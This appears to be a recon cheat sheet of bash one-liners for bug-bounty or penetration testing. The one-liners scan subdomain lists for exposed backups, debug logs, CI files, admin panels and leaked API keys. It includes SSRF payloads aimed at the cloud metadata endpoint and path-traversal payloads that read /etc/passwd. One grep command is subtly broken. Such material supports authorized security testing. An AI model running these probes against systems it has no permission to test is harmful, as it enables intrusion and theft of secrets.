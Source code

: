 Detect Backup Archives (Zip/Tar Files)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/backup.zip\n/backup.tar.gz\n/site-backup.zip') -mc 200 -o backup_archives_found.txt
```

Find Exposed Debug Logs (Stack Traces, Errors)
```bash
cat subdomains.txt | httpx -silent -path /debug.log -mc 200 -o debug_logs_exposed.txt
```

Scan for SSRF via Parameter Fuzzing
```bash
cat subdomains.txt | gf ssrf | qsreplace 'http://169.254.169.254/latest/meta-data/' | httpx -silent -fr 'ami-id\|instance-id' -o ssrf_targets.txt
```

Identify Server Headers for Misconfig Analysis
```bash
cat subdomains.txt | httpx -silent -sc -H 'X-Check: true' -o headers_info.txt
```

Detect Missing Security Headers (Hardening Issues)
```bash
cat subdomains.txt | nuclei -t security-misconfiguration/ -o missing_security_headers.txt
```

Find Exposed WordPress Debug Logs
```bash
cat subdomains.txt | httpx -silent -path /wp-content/debug.log -mc 200 -o wordpress_debug_log.txt
```

Detect Exposed GITLAB CI Files (Pipeline Secrets)
```bash
cat subdomains.txt | httpx -silent -path /.gitlab-ci.yml -mc 200 -o gitlab_ci_exposed.txt
```

Find API Keys Leaked in JS Files
```bash
katana -list subdomains.txt -silent -js | grep -E 'apiKey|client_secret|access_token' -o api_keys_leaked.txt
```

Detect Old PHPMyAdmin Panels (Known Vulns)
```bash
cat subdomains.txt | httpx -silent -path /phpmyadmin/ -mc 200 -o phpmyadmin_found.txt
```

Identify Exposed Kibana Panels (Log Monitoring)
```bash
cat subdomains.txt | httpx -silent -path /app/kibana -mc 200 -o kibana_panels_exposed.txt
```

Scan for Path Traversal (../../etc/passwd)
```bash
cat subdomains.txt | gf lfi | qsreplace '../../etc/passwd' | httpx -silent -fr 'root:x' -o path_traversal_found.txt
```

Find Open Admin Panels (Unprotected Login)
```bash
cat subdomains.txt | nuclei -t exposed-panels/ -o admin_panels_exposed.txt
```
